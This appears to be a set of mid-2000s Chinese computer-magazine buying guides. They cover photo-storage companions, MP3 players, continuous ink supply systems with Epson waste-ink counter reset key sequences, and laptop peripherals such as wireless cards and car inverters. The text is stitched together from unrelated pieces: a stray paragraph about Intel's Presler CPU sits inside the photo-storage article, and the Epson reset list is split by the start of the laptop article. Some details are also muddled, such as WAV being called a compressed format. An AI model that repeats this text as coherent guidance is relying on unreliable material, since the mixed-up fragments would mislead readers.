随着数码相机像素的增长，500万甚至800万像素的数码相机已经飞入寻常百姓家，出门带上轻巧的数码相机，拍摄清晰的图片成了很惬意的事情。可是以主流的500万像素的数码相片为例，压缩后的JPG文件一般是2.5MB左右，如果使用未经压缩处理的TIFF格式或者RAW格式的文件，体积则更是高达10MB以上。虽然配套存储卡的容量也在增长，但即使是容量高达1GB的存储卡在高精度照片面前也显得捉襟见肘，更不必说满足摄影爱好者深入到荒无人烟的野外的摄影爱好者们的大容量存储需求了。针对这样的市场契机，不少厂商推出了数码伴侣。所谓的数码伴侣是一种可以直接从数码相机或数码相机的存储卡里拷贝文件到其内置硬盘的设备。它不但能通过USB线直接连接电脑成为一个移动硬盘，而且还能脱离电脑直接拷贝数码设备中存储的文件数据，可谓将拷贝功能与移动硬盘完美地结合到一起了。

目前市面上的数码伴侣可以分为四类：
- DIY型。这类数码伴侣通常只是一个不含内置硬盘的数码伴侣盒。它很适合DIY爱好者自己动手按需求组装不同容量的数码伴侣。
- 传统型。传统的数码伴侣是由数码伴侣盒和内置硬盘组合而成的。它一般通过集成的读卡器来完成文件数据的传输。
- OTG型。它利用USB OTG（USB On-The-Go）标准直接通过USB接口完成内置硬盘与USB设备间的文件数据传输。
- 带数码伴侣功能的MP4。这类数码伴侣不仅有普通数码伴侣的文件拷贝功能，还具有浏览照片，播放音乐等MP4的功能。

针对不同的数码伴侣，我们在选购时一般应注意以下问题：
- 数据接口是选购的开始。在选购数码伴侣时首先应考虑的是接口问题，是选用内置读卡器的还是使用OTG接口的。一般来说两者性能上的差别并不大，只是同类型的数码伴侣OTG接口的要稍微轻便些。OTG接口的数码伴侣适用范围更大，除了数码相机它还能从其它USB设备里读取文件数据，如U盘，多功能读卡器等。此外部分OTG接口数码伴侣还具备双向数据传输功能，它不仅可以从外部USB设备拷贝数据到数码伴侣内置硬盘的单向拷贝功能，而且还能按用户要求将内置硬盘中的文件数据复制到外部USB设备中，即具有所谓的双向拷贝功能。
- 传输速度是选购的重点。数码伴侣从存储卡读取数据的时候至少应提供高于1MB/s的读取速度，否则读取512MB的数据都需要10分钟以上，这对宝贵的时间和电池电量来说都是浪费；与电脑连接时，高速的数据传输速度也是必要的。因此普通的USB1.1接口难以满足用户的需要，在选购时应该选择具备USB2.0高速接口（USB 2.0 High Speed）的数码伴侣。选择OTG接口的数码伴侣还要考虑到它在与数码相机连接时的兼容问题，OTG接口的数码伴侣并非能直接和所有数码相机进行文件传输，遇到不兼容的情况可以使用多功能读卡器来进行数码相机存储卡上的文件数据操作。
- 操作性能也需仔细挑选。通常应注意考虑电池续航能力和使用的方便快捷。外出使用数码伴侣的电力由内置的锂电池或者外置的AA电池盒提供。锂电池的好处是小巧轻便，但续航能力不一定能比得上使用外置的大容量AA电池盒。不过使用外置电池盒可能就要多肩负百克左右的重量，这对于使用AA电池数码相机的朋友倒不是问题，因为电池可以通用。数码伴侣使用时的操作一般比较简单，高档的数码伴侣和具备数码伴侣功能的MP4都配备有液晶屏幕，可以显示诸如电池容量，工作状态，硬盘剩余空间等有用信息，令用户使用起来得心应手；而廉价的数码伴侣就只能靠仅有的几只LED指示灯来显示工作状态。
- 周边功能可以按需选购。周边功能一般是指除了拷贝数码相片文件以外的功能，如对拷贝的文件进行管理，OTG双向拷贝，通过内置的液晶屏浏览照片或者外接电视浏览照片和播放视频等等。由于数码伴侣发展历史还比较短，这些功能作为高附加值的产物一般都需要较高的金钱代价，有需要的朋友可以按需选购，有的放矢。
- 质量安全性能不容马虎。选购中还应注意所挑选的数码伴侣的做工质量和数据的安全性。对于DIY型数码伴侣用户产品的做工在选购中也值得关注。一般知名厂家的产品比较有保障，良好的售后服务和数据安全保障才能让用户放心使用。

不过虽然如此，Intel的CPU在仲裁器这方面的缺陷还是让AMD抓住了小辫子，当然Intel不会就这样一直落后下去，在2006年的上半年Intel将会把使用65nm制程的双核心处理器推向市场，代号是Presler。Presler和Smithfield除了制程以及核心全面更新之外，最大的区别就在于Presler的两个核心不像Smithfield那样集成在同一个Chip内，而是独立分离开来，并且每个核心各自拥有2M二级缓存（见图7）。



## 高性价比：力杰C201专业版

官方网址：www.cenda.com.cn
销售热线：0755-83666635
力杰C201专业版数码伴侣采用的是银灰色铝合金机身，在强度和耐压力等方面都有保障。机身正面上装备了2.0英寸蓝色背光液晶屏，能够显示硬盘、存储卡信息，电量状态、拷贝进度等，给用户非常直观的信息。C201的体积为116mm×77mm×22mm，不含硬盘净重仅145g，这对于带液晶屏和读卡器的数码伴侣来说还是非常轻巧的。
力杰C201专业版采用了All In ONE设计，支持目前市场中几乎所有的主流存储卡。力杰C201支持多分区的硬盘，在硬盘第一分区存满后自动将数据存入下一分区。它提供的自动识别存储卡功能，也可以自动识别不同种类的存储卡。力杰数码伴侣的读卡速度最高可达8MB/s，一般存储卡中的128MB数据仅需约50秒就可以完成拷贝，即使是512MB的数据也只需4分多钟。
此外，C201专业版双模式的供电系统能够有效地规划产品室内和室外两种使用环境，在户外没有电源的情况下，用户使用数码伴侣模式，切换到高能锂离子电池供电，能够使用3小时以上；在户内通过电源适配器，切换到移动硬盘模式下，无需耗费锂电池的电量，可以全天24小时不间断的供电，最大限度地满足了用户长时间频繁使用的需要。在选购的时候还要留意内置的40G硬盘是否为全新行货，并注意让商家出具正规发票以享受全国联保和固件升级等售后服务。
总的来看，作为一款成功的数码伴侣，力杰C201专业版具备很高的性价比，双模式直接动力的设计更贴心的照顾到用户在不同环境下的使用需求。同价位的选择，我们还有宽洋S280（40GB，售价1260元）和纽曼数码伴侣王D825（80GB，售价1288元）可供选择。

## 小巧全能的数码伴侣：爱国者P670

官方网址：www.aigo.com
销售热线：800-810-7666
爱国者P670数码伴侣采用日立1.8英寸20G微硬盘，机身尺寸为79mm×69mm×22mm，重量仅为149克，是名副其实的小巧全能型数码伴侣。
爱国者P670也是使用USB2.0 On The Go接口来进行文件数据传输，但与众不同的是它支持双向拷贝操作。不仅能够从USB设备读取文件数据，也能将自己的文件数据写入到连接的USB设备上。在其OLED显示屏的帮助下，查看机内和外接USB设备的文件信息，进行文件操作管理都非常方便，一键备份功能也很实用。P670的高速USB2.0传输接口，能提供超过3MB/s的USB文件读取写入速度。以通过USB2.0读卡器读取1GB的CF卡为例，仅需要约6分钟便可存储完毕。
在数据安全方面，爱国者P670表现尤为出色。由于采用了先进的防震微硬盘和触点隔离减震系统等硬件技术，该产品能够承受1.8米自由落体的冲击，加上随机附带的数据安全方面的软件，可以提供软件硬件全方位数据安全保护，保证用户的资料不受意外损失。内置的3.6V 720mAh锂电池，大约可以工作2小时，适合野外使用要求。此外，爱国者产品提供的阳光服务等售后支持也是用户放心使用的保障。
总的来说，爱国者P670数码伴侣是一款小巧的全能型数码伴侣，良好的性能和安全的保护非常适合对数据存储高要求的用户使用。

## 经济实惠：Look A3

官方网址：www.look.com.cn
销售热线：0755-26824351
为了追求价格低廉，又需要一定的性价比，我们选择了Look的e路游A3系列OTG数码伴侣。这款数码伴侣不含硬盘的售价仅为160元。它采用的是金属外壳，外观与一般的移动硬盘盒相仿，只是多了几个LED灯指示工作状态，体积为130mm×75mm×15mm，伴侣盒净重约为100克左右，非常轻巧。
Look A3数码伴侣具有USB2.0 On The Go接口，可以直连大部分数码相机和各种U盘以及读卡器进行数据备份。但由于该产品在做OTG Host时传输速率受外部设备状况影响很大，建议使用这款数码伴侣的朋友再花30元左右购买一个USB2.0高速接口的读卡器，通过读卡器读取存储卡的文件数据，省时省电。
作为廉价的数码伴侣解决方案，简单的DIY知识和能力必不可少。在准备好Look A3数码伴侣盒以后，还需要用户自己配备一块2.5英寸9mm厚的笔记本硬盘。这样的硬盘一般可以使用笔记本升级淘汰下来的小容量硬盘，或者从二手市场上购买10G左右的笔记本硬盘，硬盘价格可以控制在200元以内，这使得整个方案显得经济实惠。自己动手安装硬盘也比较简单：用螺丝刀拆下数码伴侣背面板就可取出数码伴侣的主板，将硬盘按照说明插在其上并安装复原即可正常使用。
整体来看，Look A3数码伴侣满足我们对经济实惠型数码伴侣所有的要求，USB2.0的高传输速度，优良的做工设计和低廉的销售价格令其物有所值。而与之相当的产品，还有移动之星的935U2OTG和奥美嘉的数码伴侣盒，价格都在240元左右。

> （广东 水月子）## MP3播放器选购点点通

数码科技时代，拥有一款MP3播放器成为了一种时尚。那么如何挑选MP3播放器呢？各种技术参数如何正确解读？五花八门的功能我们又是否真正需要呢？下面为你准备了一些MP3播放器选购方面的经验技巧，希望能够对你有所帮助。

## MP3解码芯片的重要性

要全面了解MP3播放器，必须首先了解MP3播放器的工作流程。首先MP3播放器从存储介质中读取音频文件；然后送到解码芯片对信号进行解码；解码的数字音频将通过数模转换器转换成模拟音频信号；再通过音频放大处理后传输到耳机输出。整个工作流程所涉及的重要部件、MP3播放器内部电路的设计、焊接的工艺、线路板材料等系统整体的质量、音源、耳塞等因素都将影响MP3播放器的音质，其中负责解码工作的解码芯片是MP3播放器的心脏。优秀的解码芯片能更好地还原音频信号，相反，劣质的解码芯片会令音频信号有一定的损失。

好的芯片与差的芯片之间有很大的价格差异，这也是市面上高端和低端MP3播放器价格差异非常大的原因之一。那么如何判断多花的那些钱，买来的是高品质，还是一个品牌和炒作呢？一般高端产品都会标榜使用了何种芯片，所以在选购高端产品时你可先通过互联网等渠道查询芯片的资料。这里，我们就以艾利和(iRiver)iFP-590 MP3播放器为例，给大家简单说说如何通过互联网查找到它所采用的解码芯片。

首先，我们以“艾利和iFP-590解码芯片”为关键词，在Google或百度等搜索引擎中搜索相关资料。很快，我们在Google搜索引擎上就搜索到54项符合“艾利和iFP-590解码芯片”的查询结果(见图1)。经过一番筛选，我们在其中一篇文章上找到了我们需要的东西——艾利和iFP-590 MP3播放器采用的飞利浦的SAA7750芯片(DSP)，见图2。





## 常见的解码芯片

目前，市场上的MP3播放器采用的解码芯片，多是美国SIGMATEL公司的STMP34系列，该系列的解码芯片采用高集成单芯片，外围结构比较简单，成本也容易控制。其后的STMP 35系列(见图3)品质有较大的提高，也受到越来越多的厂家欢迎。



而处于高端地位的是飞利浦公司的SAA7750、SAA7751等芯片(见图4)，品质较佳但价格高，但必须与其他控制芯片搭配使用，所以采用该公司芯片的MP3播放器产品价格也较高。品质与之相近的，是韩国TELECHIPS公司的TCC730、TCC731解码芯片(见图5)，虽然也需要外围元件的配合，但其成本比起飞利浦的芯片要低一些。另外，市场上还有其他一些市场份额较小的芯片，这里就不再逐一介绍了。





## MP3播放器的外观造型

现今的MP3播放器市场，可谓百花齐放(见图6)，各大厂商为占得先机各出奇招，外观造型千奇百怪，选购时应如何下手呢？当然是挑选自己喜欢的，这一点毫无疑问，但谨记，买椟还珠的故事不应该在我们身上发生。选购时首先应考虑操控性，是喜欢小巧精致还是时尚动人，你可以随自己的心意，但产品的外观造型必须方便把握、放置，按键设计应该方便各项功能的操作，同时应避免按钮排列紧密、易于被触动导致误操作等问题。另外，操控性较佳的随身听设备大多配备线控，可以通过耳机连接线上的按钮操作MP3播放器。虽然线控在MP3播放器上还不普及，但是如果在性能、价格等相差不大的情况下，具有线控功能的机型操控性更佳，当然是首选。而外壳方面则比较简单，目前材质主要是塑料、金属两类(三星曾使用陶瓷)。塑料外壳比较普通，产品防滑性一般较好，金属制造产品表面多采用蚀刻、拉丝、烤漆等工艺，易于清洁、保护，较具贵族气息，但会比较重。惟独当前流行的镜面材质外壳比较脆弱，容易碎裂划伤，虽时尚但购买时很难确定它的材质是否为高硬度的防划材质。



## 支持ID3标签的重要性

要知道MP3播放器支持ID3标签的意义，我们首先需要了解ID3标签是什么。由于MP3格式标准里并没有特别定义保存曲目相关信息的结构，于是1996年有人提出了一种解决办法，即在MP3文件末尾添加128字节额外的数据空间来保存曲名、演唱者、专辑名、音轨编号、专辑名称、曲目类型等信息，这就是ID3标签标准。不难明白，当我们的MP3播放器支持ID3标签，那么我们就能够直观地从播放器屏幕上了解到歌曲的信息，因而我们选购时当然也就是希望拥有该功能了。另外，如果你选购的MP3播放器支持中文，那么必须注意，目前市场上并不是每款支持中文的MP3播放器，都能够支持中文ID3的；如果希望通过中文查阅MP3歌曲文件的ID3标签，选购时务必要加以测试。

此外，最早出现的ID3 v1和随后的ID3 v1.1标准有明显缺陷，而ID3 v2和ID3 v1完全不同，部分支持ID3 v1、ID3 v1.1标准的MP3播放器，在读取ID3 V2标准的标签时甚至不能正常播放，所以选购时你必须了解清楚播放器具体是支持哪一种标准，以便在编辑自己的MP3文件标签时能够选择正确的标准。

## 小提示

专用的ID3编辑器并不常见，但要编辑ID3，我们可以用Winamp这个播放软件在电脑里进行编辑(见图7)。



## 各种液晶显示屏的优劣

目前市场上的MP3播放器的屏幕主要都是黑白液晶屏幕(TN屏)，但不同的发光方式就决定了屏幕质量的不同。这直接影响屏幕的显示效果及MP3播放器的电量消耗大小。

第一种是比较老的LED(发光二极管)背光屏幕，不同颜色的LED会让TN屏的颜色不同，如蓝色LED会让整个TN屏幕变成蓝色。该技术成熟并且成本较低，显示效果比较普通，但其功耗比较大。目前只有老款、低端(杂牌)MP3播放器才会使用；

第二种是采用EL背光的液晶屏，其特点是不产生热量和不含紫外线，发光效率高，亮度分布也均匀，而且功耗低，惟一的缺点是在点亮背光时容易出现轻微的噪音，在使用FM收音时特别明显；

第三种和前两种有本质上的不同，它采用的是OLED屏幕而不是传统的TN屏幕，这种液晶屏是主动发光器件，不需背光源，更省电。并可以采用双色字体显示，显得更炫更时尚，但价格也较高。OLED已经被越来越多的MP3厂商所采用，在未来的一段时间里，也将是MP3播放器屏幕的主流(见图8)。



## 选择多大容量的合适？

MP3播放器的存储容量从最早期的16MB、32MB，发展到64MB、128MB、256MB、512MB，甚至以GB为单位计算的硬盘式MP3播放器。很多用户都会喜欢大容量的MP3播放器。但实际上，除了个别有特殊需要的用户或者极度发烧的MP3玩家以外，一般用户不需要购买太大容量的MP3播放器。从另外一个角度来说，价格也是一个很大的问题。目前128MB的MP3播放器比较便宜，而MP3歌曲1分钟约需要1MB的存储空间，128分钟的音乐平常听听也就足够了。

## 选择支持哪种音频格式的播放器

目前，MP3播放器一般以支持MP3、WMA等有损压缩的音频格式为主，也有不少产品同时支持WAV等无损压缩格式，但由于无损压缩格式的音频文件体积较大，实用性强，除非你使用的是硬盘式MP3播放器，否则一般MP3播放器支不支持无损压缩格式并不重要。而在有损压缩格式中，MP3无论在低比特率还是高比特率压缩下都能够提供比较好的效果，而且MP3格式的歌曲资源也比较好找，所以MP3格式的音乐文件的“性价比”还是很高的。至于WMA则是微软推广的一种格式，在相同比特率压缩下，WMA可以比MP3格式文件的体积更小，但音质不如MP3。

另外，有极个别播放器还支持OGG有损压缩格式，OGG拥有最好的低比特率压缩品质，因此，如果你经常听一些音质要求不高的语音内容，例如英语学习课程之类的，可以考虑选购支持该格式的MP3播放器。

### 小提示

如何确定你的MP3能播放哪种音频格式的数字音乐文件呢？除了用户自己用多种格式的数字音乐文件去试之外，还可以在MP3播放器的说明书、官方网页以及相关的产品评测上查到。

## 支持多大比特率的MP3文件

数字音乐文件的品质主要参考采样频率和比特率这两项指标。常用的采样频率有11.025kHz、22.05kHz和44.1kHz。采样点之间的时间间隔越小，即每秒钟采样的次数越多，采样频率越大，声音波形还原就越细腻逼真，所以理论上讲应该是采样频率越高音质越好。但由于人耳听觉分辨率毕竟有限，最大分辨率大约是20kHz左右，所以大部分MP3播放器所支持的44.1kHz已基本上能满足了。

比特率(bit rate)是一种数字音乐压缩效率的参考性指标，它表示单位时间(1秒)内传送的比特数bps(bit per second，位/秒)的速度。CD音乐光盘中的数字音乐比特率为1411.2kbps(也就是记录1秒钟的CD音乐，需要1411.2 x 1024bit的数据)，音乐文件的比特率高意味着在单位时间(1秒)内需要处理的数据量(bit)多，相应的音乐文件的音质也会好些。

但是，比特率高时文件体积会大，会占据很多的内存容量。最常用的比特率是128kbps，MP3文件可以使用的一般是8~320kbps，但不同MP3播放器在这方面支持的范围不一样，大部分的是32~256Kbps。当然，这个比特数的范围是越广越好。

### 小提示

怎么知道数字音频文件的编码方式与比特率？这也不难，电脑里安装的很多播放器都让你查看该数字音乐文件所采用的编码方式与比特率。如Windows Media Player、Foobar2000和WinAmp等(见图9)。



## 是否支持VBR MP3编码文件

不同的MP3播放器，除了能够支持的MP3采样率和比特率可能不同以外，所能够支持的编码方式也是有所不同的。和之前提到的比特率一样，MP3播放器所支持的编码方式越多，能播放的数字音乐文件就越多。而目前使用最广泛的是CBR和VBR编码方式。

CBR(Constant Bit rate)方式采用固定比特率，也就是每秒钟的数据流量是固定的。它的优点是压缩速度快，音质也能满足一般用户的需要；缺点是在压缩时会造成存储空间浪费，压缩出来的文件体积相对较大，但音质却不会有明显的提高。

VBR(Variable Bit rate)模式采用动态比特率，这种编码模式每秒钟的流量是可以变化的，压缩软件在压缩时根据音频数据即时确定使用什么比特率。在音乐波形较复杂时采用高比特率进行编码，在音乐波形比较简单时就用比较低的比特率。优点是可以有效地利用存储空间，以确保音质为前提的同时兼顾了文件大小；唯一的缺点是编码的速度较慢，制作时对CPU性能较差的电脑来说是一个很大的负担。由于可以在保证质量的同时减少存储空间的占用，VBR编码模式越来越流行，特别是对于音频发烧友来说，这已经是最基本的要求(见图10)。



## FM广播功能的取舍

FM广播收音功能是MP3中一个很不错的功能，特别是在找不到好歌的时候，FM广播收音功能就是一个很好的调剂。不过，对部分用户来说，该功能也是可有可无的。而对于用户自己认为不需要的，或者不常用到的功能，笔者一向的观点都是：不买为妙。如果你是喜欢听广播的话，那么收音质量和附加的电台录制功能就是你必须关注的两个点。在测试收音质量的时候，我们应该在户外和室内都试试其自动搜台的功能，同时每个台都大致听一下，看看收音是否清晰。而电台录制功能的测试就简单多了，只要能录下来，并且音质清晰就好了(见图11)。不过，在这里要提醒大家一点，并不是所有能录音的MP3播放器都支持电台录音功能的，购买之前一定要咨询和测试清楚。



## 可升级固件的重要性

MP3播放器的固件(Firmware)基本上相当于电脑主板上的CMOS和操作系统的结合。有了它，我们才能够通过菜单、操作选项等设置来使用MP3播放器。以往，它是存储在只读存储器中的，就算在设计时出现了BUG，用户也无法自行升级修正。现在，固件存储在可编程只读存储器中，用户可通过厂商提供的相应的固件文件来刷新固件，修复漏洞获得新的功能。

目前，很多品牌的MP3播放器已经提供了升级固件的功能，还特别为用户提供了在Windows系统下升级(刷新)固件的软件(见图12)。大家在购买时，除了要确认该MP3可进行固件刷新之外，还应该看看随机光盘里面是否附带了相应的刷新工具软件。



## 不同电池的优点与缺点

要选购一款好的MP3播放器，你一定要注意播放器的电池问题，否则使用时可能会遇到许多麻烦。目前大部分MP3播放器都声称所使用的电池能够连续使用十多个小时，或者使用一节干电池能够连续播放多少小时。但事实是很多都只是“标称”而已。其次，MP3播放器所使用的电池，无论是普通干电池、内置锂电池，还是可更换的锂电池都有缺点。其中干电池又分为7号和5号两种，使用7号干电池成本较高而且使用的时间短，但与使用5号干电池的播放器相比，播放器的体积可以做得更轻巧。而使用5号干电池的MP3播放器，电池价格比较便宜，但播放器一般都比较厚，体积也比较大，使用的时间也比7号电池长一点。

至于锂电池，播放时间能够满足用户的需要，而且可以重复充电使用。但在出外旅游等无法充电的环境下就会比较尴尬。外置的锂电池，虽然可以另外备多一两块，但电池价格则昂贵得让人难以接受。不过无论如何，可更换锂电池都比内置的锂电池要好，内置的锂电池不同于其他电子产品，一般情况下用户都无法更换，在电池报废后播放器也就无法使用了。所以，选购时你必须考虑清楚，按自己的需要做出选择(见图13)。



## 如何验收MP3播放器

一直以来，笔者都建议每一位询问应该选购哪一款MP3产品的朋友自己先去听听不同的MP3播放器，实际使用一下，有对比才可能有选择。而测试时应使用你比较熟悉的歌曲或者音乐，那样能容易地得知该MP3播放器的音质是否符合你的要求。此外，购买前要认清品牌，了解清楚产品和服务，在购买后仔细验收。看看机身里外是否有划痕、裂痕，清点包装盒里面的产品、说明书、保修卡以及配件是否齐全。其次，如果是有防伪措施的品牌机，你还可以利用机身编码，通过800电话来确认产品的真假(见图14)。



## 连续供墨让喷墨打印耗材不耗费

打印机可以说是每个办公场所都必须有的东西，有的公司会买激光打印机，虽然一次投入高，但接下来的成本算起来是比较划算的，但是对于个人办公族而言，买不起激光又想要有好的打印效果，只能选购喷墨打印机了。但是喷墨打印机有一个问题，那就是墨盒的成本太高，墨盒很快就会被用完，甚至有时候要打印一幅高精度的彩色照片，还没有打印完墨水都用完了。更换墨盒给我们带来的是高昂的成本，因此我们要想办法来降低喷墨打印机的成本了。

## 降低成本的好方法：连续供墨系统

不要以为连续供墨是什么深奥的东西，事实上你看到的那些用喷墨打印机打印出来的大幅海报，有很多都是在连续供墨状态下打印的。在以前，还有一个能够降低喷墨打印机成本的好方法，那就是自己手动灌墨，不过每次都要一点一点来灌，可以说非常不方便(见图1)，而且就性价比而言，连供系统的价格远远低于原装墨盒。以市场占有率较高的Epson C65打印机为例，一套容量为250ML的4色原装墨水市场价在250元左右，一套4色的连供墨系统的售价约为200元，由于连供墨盒每个颜色的墨水都是独立封装的，使用完后可重复填充，粗算下来这套连续供墨系统相当于20套原装墨盒的墨水量。按原装墨盒价格计算，购买相同容量的墨盒总共花去(250×20)5000元，而一套连供系统的价格仅为200元，节约了近4800元。



## 我们该如何选购连续供墨套装？

在到市场上面去选购之前，我们应该了解一下，自己的打印机适用什么样的连续供墨系统。比如Epson的打印机可以采用墨哥、HP打印机采用鑫之彩或英之杰等产品。在购买的时候，我们应该根据打印量和使用环境、打印项目等选择哪家产品更适合，事前进行对比，提前作好考虑。除了连续供墨套装，我们要注意的还有墨水，颜料墨水售价高出染料墨水一倍以上，而且颜料墨水打印的照片一般没有染料墨水打印的照片鲜艳和饱满，不过颜料墨水打印出来的照片不易褪色。最后就是现在连续供墨的销售主要有代理商和网络销售两种，建议大家直接到代理商那里去购买，因为他们应该会帮你免费安装的，不过价格稍贵，大概等于一套原装墨盒。

## 小提示

连续供墨系统的墨水成分与原装墨水相比，还是显得不够“精细”。因此，如果不是每天经常开机打印的用户，最好不要使用连续供墨系统，否则很容易发生堵头的问题。这个现象在采用墨盒和墨头分离的EPSON和Canon打印机上很容易发生，大家一定要引起注意。

## 套装买回来之后的安装

好了，假设现在我们已经把套装买回来了，就让我们动手开始安装吧。首先要说明的是，虽然连续供墨系统的牌子很多，但是安装起来都是大同小异的，有些针对加密机型的连续供墨套装还会附送一个解码芯片，大家只要按照说明书上面写的把芯片安装到墨盒上面即可，下面就可以开始我们的安装过程了，这次我们用的连续供墨系统是赛诺连续供墨套件(见图2)。

















在套件的包装盒里面有详细的说明书可以看，接下来我们把外置的墨盒拿出来，打开盖子(见图3)，往里面注入墨水(见图4)。在添加墨水的时候小心一点，要把每一个单色墨盒都注满，然后把管线穿过盖子，再把盖子完全封闭好(见图5)，记住要用笔把出气孔给扎开哦！最后我们把六个单色的墨盒放到整体大墨盒里面，放好海绵，固定好之后，就开始用管线连接打印机了。

把墨盒固定到墨车上面之后，我们就把墨车推到最左边，因为墨车在打印过程之中会左右快速移动，因此我们必须给墨车留出足够的管线长度，以免妨碍墨车移动。而管线的连接方法大概有两种，一种是走打印机盖子里面(一般都采用这种方法，见图6)，而另外一种就是从打印机的散热孔里面延伸出来(见图7)，不过这要看你的打印机型号，还有就是管线的粗细是否足够穿过散热孔了，这种方法比较烦琐，但是对外观影响很小哦。

把管线连接好了之后，我们就要用一个针管塞到不同颜色的单色墨盒里面抽墨了。这是因为你的管线里面有空气，打印的时候墨水会无法通过管线传输到墨盒里面，因此抽墨就能够把墨抽出来的同时，把空气也抽出来，管线里面就完全充满墨水了(见图8)。多出来的墨水其实你可以重新注回到外置的墨水盒里面去的，不过注意在换不同颜色的墨盒之前要把针管洗干净了哦。最后要提醒大家的就是，有些打印机的墨盒有加密芯片，你就要把套装里面的解码芯片取出来，把原来墨盒的芯片换掉，这样才可以正常打印哦(见图9)！

## 废墨清零的技巧

最后一个要注意的问题，那就是打印机的“废墨计数”问题。在EPSON打印机里面有的型号会设置了一个“计数器”，检测你清洗及开机的次数，你每开一次机或每清洗一次这个计数器就会累计，到一定数量机器就不能打印只能到EPSON专营店去更换墨垫(一般来说个人很难达到这个计数，但是公司用的打印机就例外了)。其实我们根本不用更换这个东西，下面就列出某些具有这样的计数器的机器手工清零的方法。您首先关掉打印机，然后按照我们下面的方法进行手工清零，最后重启打印机，你的打印机即可重新使用了。

- Epson Stylus Color：同时按住ALT+FONT+LOAD+PAUSE，然后按下电源键，机器有反应时松开所有的键；
- Epson Stylus Color 300：同时按住LOAD/EJECT+CLEANING键，然后再按住电源键不放直到喷头有反应。最后松开所有的键。在2~3秒后再按住LOAD/EJECT+CLEANING键；
- Epson Stylus Color 400、600：同时按住LOAD/EJECT+CLEANING键，然后再按住电源键不放直到喷头有反应。最后松开所有的键。在2~3秒后松开LOAD/EJECT键；
- Epson Stylus Color440、640、740、460、660、670、760、860、880、1160：同时按住LOAD/EJECT+CLEANING键，然后再按住电源键不放直到喷头有反应。最后松开所有的键。在2~3秒后再按住CLEANING键。直到看到机器有反应；
- Epson Stylus Color 680：同时按住LOAD/EJECT+CLEANING键，然后再按住电源键不放直到喷头有反应。直到你看到墨水显示灯闪动与纸从出口出来，最后松开所有的键。在2~3秒后再按住CLEANING键。直到看到机器有反应；
- Epson Stylus Color 800，850：同时按住LOAD+CLEANING COLOR+CLEANING BLACK键，然后再按住电源键不放直到喷头有反应。直到你看到墨水显示灯闪动与纸从出口出来，最后松开所有的键。在2~3秒后再按住CLEANING COLOR键。直到看到机器有反应；
- Epson Stylus Color 900，980：同时按住LOAD/EJECT+CLEANING键，然后再按住电源键不放直到喷头有反应。直到你看到墨水显示灯闪动与纸从出口出来，最后松开所有的键。在2~3秒后再按住CLEANING键直到12-13秒；
- Epson Stylus Color 3000：同时按住FAUSE+LF/FF+DOWN ARROW键，然后再按住电源键不放直到喷头有反应。最后松开所有的键；

# 如虎添翼：笔记本外设帮你忙

现在有不少朋友都买了笔记本，享受着充满乐趣的移动性和娱乐性。但是笔记本终究和台式机不同，由于设计上要追求体积小、重量轻，因此台式机上面很多扩展的东西在笔记本上面都被“删除”了。现在的笔记本，除了标配的PCMCIA、USB和红外接口之外，其他的接口要看具体的机型才会知道是否有这样的功能。如果你对办公的要求比较严格，需求比较多的话，此时笔记本就比较难满足你的要求了。不过不用担心，让我们来给笔记本添上一对翅膀吧！

## 第一种需求：如果我找不到提供这些无线上网的场所怎么办？譬如说我在室外急需上网？

**解决方法：**用PCMCIA接口的GPRS或者CDMA无线上网卡。

中国移动和联通很早就开通了“无线宽带”服务，只要我们所在的地方有手机信号，我们就能够上网。当前无线上网卡有几种类型，一是机卡一体，上网卡的号码已经固化在PC卡上，直接插入笔记本电脑的PCMCIA插槽内，就可以使用；第二是机卡分离，记录上网卡号码的“手机卡”就可以和卡体分离，把两者插在一起，在插入PCMCIA插槽内就可以上网；第三是USB无线猫(MODEM)，即通过USB连接插入台式或笔记本电脑的USB接口内上网，而手机卡也可以插入到无线猫中。



至于安装的方法也很简单，我们首先需要一块PCMCIA接口的无线宽带网卡，支持CDMA或者是GPRS的(这要看你用哪家网络商)，然后我们把手机卡放到上网卡里面，把网卡插入笔记本的PCMCIA接口里面，安装好驱动程序，然后就可以使用了，非常方便哦。

**具体操作方法：**下面以中国移动的神州行随E行上网卡(SIM卡 + 随E行单模GPRS网卡 + 笔记本或PDA方式)为例：

- **第一步：**单模网卡上有SIM卡插槽，在激活SIM卡后，将其插入单模网卡。
- **第二步：**在电脑上安装客户端软件(购买网卡时已配备)。
- **第三步：**安装完毕后，将单模网卡插入电脑，电脑将自动启动驱动程序，驱动程序安装完成后重启电脑。
- **第四步：**启动客户端软件，并设置无线网卡配置，将GPRS连接设为“缺省”，设置接入点名称为“cmnet”，配置用户名和密码为空；
- **第五步：**进入短信界面可以发送短信，进入GPRS界面可以连接网络，启动互联网浏览器。

Epson stylus Photo 785、895:同时按住MAINTENANCE+ROLL APER键，然后再按住电源键不放直到喷头有反应。你将看到指示灯闪烁，最后松开所有的键。在2-3秒后再按住ROLL APER键直到12~13秒。直到指示灯闪烁；

Epson stylus photo 890、1280、1290:同时按住MAINTENANCE+ROLL APER键，然后再按住电源键不放直到喷头有反应。你将看到电源指示灯闪烁，最后松开所有的键。在2~3秒后再按住ROLL APER键直到12~13秒，直到指示灯闪烁。

如果您的打印机无法清零，你不妨尝试一下用EPSON的清零软件，可以清除一切和打印相关的技术哦，关于这个，我们下次介绍，咱们立刻就给自己的打印机装上连续供墨系统吧！

(广东 水水)

## 第二种需求：我时常会在车里使用笔记本电脑工作和上网，但是笔记本电源只能用一段时间，我该怎么办？

**解决方法：**车载逆变电源

所有的轿车里面都会有一个点烟器，它同时也是12V直流电源的插孔，我们只需要购买一个这样的笔记本车载电源就能够满足我们的外置电源需求了。只要你的汽车有足够汽油，就能够保证笔记本电脑电量充足。买了车载电源回来之后，我们可以根据自己笔记本的电源插孔先配置好插头，然后把电源和笔记本电源插口接上，接着把圆柱形的点烟器插头插到汽车的点烟器之中，只要车辆通电，你的笔记本立刻就会转换到外置电源状态，并且可以充电了。



**小提示**
挑选一款额定功率在150W左右的车载逆变电源，不能贪多贪大，以免汽车的蓄电池以及线路不堪负荷(后者如果严重超负荷，甚至会引发汽车着火)。

## 第三种需求：如果我在移动办公的中途需要打印一些文稿怎么办？

**解决方法：**便携式打印机

市面上有不少便携式打印机，最经典的就是佳能i70，它的重量只有1.8公斤，体积只有15英寸笔记本电脑的一半左右，而且具有4800dpi打印分辨率和13ppm黑白文本打印、9ppm彩色打印的速度。而且你还能够把佳能数码相机和i70连接，直接打印相片！i70的接口是USB，和笔记本相连接可以说非常方便，相信一定可以满足移动办公一族的需求。



佳能i70

## 第四种需求：我有很多设备要和笔记本电脑连接，扩展接口不够了怎么办？

